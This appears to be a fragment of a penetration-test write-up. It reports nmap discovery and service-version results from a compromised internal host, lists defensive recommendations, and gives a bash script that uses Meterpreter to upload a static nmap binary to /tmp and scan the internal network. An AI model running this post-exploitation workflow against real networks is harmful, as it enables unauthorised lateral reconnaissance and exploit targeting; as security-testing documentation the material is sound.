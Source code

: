 ### Scanning Results
#### Network Discovery
- **Command:** `./nmap -sn 192.180.108.0/24`
- **Live Hosts:** 192.180.108.1, 192.180.108.3
- **Scan Duration:** 3.45 seconds

#### Service Enumeration
- **Target:** 192.180.108.3
- **Open Ports:** 21/tcp (FTP), 22/tcp (SSH), 80/tcp (HTTP)
- **Service Versions:** vsftpd 3.0.3, OpenSSH 7.9p1, Apache httpd 2.4.38

### Key Findings
- Successfully deployed reconnaissance tools on compromised system
- Identified additional target systems on internal network segment
- Confirmed service versions for exploit module selection
- Validated results using multiple scanning techniques

### Recommendations
- Implement network segmentation to prevent lateral reconnaissance
- Monitor for unusual process execution patterns
- Restrict write permissions in temporary directories
- Deploy endpoint detection and response solutions
```

### Automation Scripts:
```bash
# Automated deployment and scanning script
#!/bin/bash
# auto_deploy_scan.sh

# Deploy static binary
meterpreter -x "upload /root/static-binaries/nmap /tmp/nmap; shell"

# Configure and execute
cat << 'EOF' > /tmp/scan_script.sh
#!/bin/bash
cd /tmp
chmod +x ./nmap
./nmap -sn $1/24 > network_discovery.txt
./nmap -sV $(grep "Nmap scan report" network_discovery.txt | cut -d" " -f5) > service_scan.txt
EOF

bash /tmp/scan_script.sh $TARGET_NETWORK
```

## 📚 Additional Resources

### Static Binary Sources:
- Static binaries collection: https://github.com/andrew-d/static-binaries
- Nmap static compilation: https://github.com/ernw/static-toolbox
- Custom compilation guides: https://nullsec.us/static-binaries/
